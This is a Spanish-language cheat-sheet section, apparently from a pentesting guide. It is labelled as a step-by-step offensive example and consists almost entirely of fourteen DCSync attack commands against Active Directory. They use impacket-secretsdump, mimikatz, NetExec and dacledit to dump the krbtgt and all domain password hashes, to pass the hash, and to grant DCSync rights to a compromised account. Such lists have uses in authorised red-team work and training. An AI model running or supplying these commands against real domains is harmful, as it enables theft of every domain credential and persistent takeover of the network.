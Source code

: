 
## 💻 Ejemplo práctico ofensivo (paso a paso)

```bash
# 1. DCSync de la cuenta krbtgt (para Golden Tickets)
impacket-secretsdump -just-dc-user krbtgt domain.com/administrator:password@dc.domain.com

# 2. DCSync con hash NTLM
impacket-secretsdump -just-dc-user krbtgt -hashes :aad3b435b51404eeaad3b435b51404ee domain.com/administrator@dc.domain.com

# 3. DCSync masivo de todo el dominio
impacket-secretsdump -just-dc domain.com/administrator:password@dc.domain.com

# 4. DCSync con mimikatz (Windows)
privilege::debug
lsadump::dcsync /domain:domain.com /user:krbtgt

# 5. DCSync de usuario específico
lsadump::dcsync /domain:domain.com /user:administrator

# 6. DCSync de todas las cuentas de dominio
lsadump::dcsync /domain:domain.com /all

# 7. DCSync desde Linux con secretsdump
secretsdump.py -just-dc 'domain.com/administrator:password@dc.domain.com'

# 8. DCSync con Kerberos (ticket válido)
export KRB5CCNAME=administrator.ccache
impacket-secretsdump -k -no-pass -just-dc domain.com/administrator@dc.domain.com

# 9. DCSync dirigido a cuentas de servicio
impacket-secretsdump -just-dc-user 'domain.com/sql_service' domain.com/administrator:password@dc.domain.com

# 10. DCSync con NetExec
nxc smb dc.domain.com -u administrator -p password --dcsync

# 11. DCSync limitando salida (stealth)
impacket-secretsdump -just-dc-user krbtgt -outputfile dcsync_krbtgt domain.com/administrator:password@dc.domain.com

# 12. DCSync con autenticación NTLM directo
python3 secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc domain.com/administrator@10.10.10.100

# 13. Verificar permisos DCSync de una cuenta
python3 dacledit.py -action read -target-dn 'DC=domain,DC=com' -principal 'compromised_user' domain.com/administrator:password

# 14. Otorgar permisos DCSync a cuenta comprometida
python3 dacledit.py -action write -rights DCSync -principal 'compromised_user' -target-dn 'DC=domain,DC=com' domain.com/administrator:password
```

---